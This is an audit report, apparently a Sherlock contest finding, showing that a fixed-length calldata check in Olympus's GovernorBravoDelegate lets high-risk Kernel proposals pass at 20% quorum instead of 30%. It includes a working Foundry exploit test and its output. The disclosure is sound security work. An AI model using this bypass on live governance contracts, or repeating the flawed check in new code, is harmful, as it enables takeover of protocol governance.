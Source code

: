 Mysterious Honey Falcon

medium

# The high risk proposals quorum can be bypassed

## Summary

The proposals that interact with the Default Framework kernel are considered high-risk proposals and require a higher quorum of 30%, instead of the standard 20%. However, this requirement can be bypassed by constructing actions that involve the Default Framework kernel in a way that evades the checks in the [`_isHighRiskProposal`](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L611-L667) function.

## Vulnerability Detail

The [`_isHighRiskProposal`](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L611-L667) function is responsible for determining whether a given action qualifies as a high-risk proposal. The [check that parses calldata](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L636-L645) is implemented incorrectly because it assumes that the call to the `Kernel.executeAction` function will have data with a specific length:

- `0x44` in case the signature is with length 0
- `0x40` in case the signature is set

This assumption is incorrect because there may be additional calldata sent to the target, which will be ignored by the target contract.

The following proof of concept demonstrates an attack where the proposal triggering `Actions.ActivatePolicy` has a quorum of 20% instead of the required 30%. This was achieved by adding an extra byte to the calldata.

```solidity
function testExploitBypassHighRiskProposal() public {
    // Activate TRSRY
    vm.prank(address(timelock));
    kernel.executeAction(Actions.InstallModule, address(TRSRY));

    // Create proposal that should be flagged as high risk
    address[] memory targets = new address[](1);
    uint256[] memory values = new uint256[](1);
    string[] memory signatures = new string[](1);
    bytes[] memory calldatas = new bytes[](1);
    string memory description = "High Risk Proposal";

    targets[0] = address(kernel);
    values[0] = 0;
    signatures[0] = "";
    calldatas[0] = abi.encodePacked(
        abi.encodeWithSelector(
            kernel.executeAction.selector,
            Actions.ActivatePolicy,
            address(custodian)
        ),
        "X"
    );

    vm.prank(alice);
    bytes memory data = address(governorBravoDelegator).functionCall(
        abi.encodeWithSignature(
            "propose(address[],uint256[],string[],bytes[],string)",
            targets,
            values,
            signatures,
            calldatas,
            description
        )
    );
    uint256 proposalId = abi.decode(data, (uint256));

    data = address(governorBravoDelegator).functionCall(
        abi.encodeWithSignature("getProposalQuorum(uint256)", proposalId)
    );
    uint256 quorum = abi.decode(data, (uint256));
    assertEq(quorum, 200_000e18);
}
```

Output
```shell
[PASS] testExploitBypassHighRiskProposal() (gas: 525810)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 22.45ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact

The attacker can bypass the 30% quorum required for high-risk proposals and present them as regular proposals with the necessary 20% quorum.

## Code Snippet

- https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L636-L645

## Tool used

Manual Review

## Recommendation

It is recommended to correctly parse the calldata without relying on its hardcoded length.
